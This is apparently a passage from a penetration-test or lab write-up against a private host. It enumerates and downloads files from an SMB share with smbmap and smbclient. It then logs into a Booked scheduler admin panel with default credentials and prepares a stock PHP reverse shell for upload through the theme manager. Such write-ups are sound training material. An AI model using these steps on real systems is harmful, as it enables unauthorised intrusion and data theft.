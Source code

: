 The SMB shares discovered have the following permissions.
```bash
smbmap -H $TARGET

# output
[+] IP: 192.168.51.64:445       Name: 192.168.51.64                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        zino                                                    READ ONLY       Logs
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
```

Victor was able to download files from the accessible SMB share.
```bash
cd loot
smbclient \\\\$TARGET\\$SHARE
prompt
mget *

# output
NT_STATUS_ACCESS_DENIED opening remote file \.bash_history
getting file \error.log of size 265 as error.log (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
getting file \.bash_logout of size 220 as .bash_logout (0.7 KiloBytes/sec) (average 0.8 KiloBytes/sec)
getting file \local.txt of size 33 as local.txt (0.1 KiloBytes/sec) (average 0.6 KiloBytes/sec)
getting file \.bashrc of size 3526 as .bashrc (11.9 KiloBytes/sec) (average 3.4 KiloBytes/sec)
getting file \.profile of size 807 as .profile (2.8 KiloBytes/sec) (average 3.3 KiloBytes/sec)
getting file \misc.log of size 424 as misc.log (1.4 KiloBytes/sec) (average 2.9 KiloBytes/sec)
getting file \auth.log of size 368 as auth.log (1.2 KiloBytes/sec) (average 2.7 KiloBytes/sec)
getting file \access.log of size 5464 as access.log (18.0 KiloBytes/sec) (average 4.6 KiloBytes/sec)
```

```bash
cat *.log
```

## Gaining Access
The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems. During this penetration test, Victor was able to successfully gain access to 10 out of the 50 systems.

```bash
firefox http://192.168.51.64:8003/booked/ # admin:adminadmin
firefox http://192.168.51.64:8003/booked/Web/admin/manage_theme.php?
```

```bash
cp /usr/share/webshells/php/php-reverse-shell ./rshell.php
vim rshell.php
firefox http://192.168.51.64:8003/booked/Web/
```
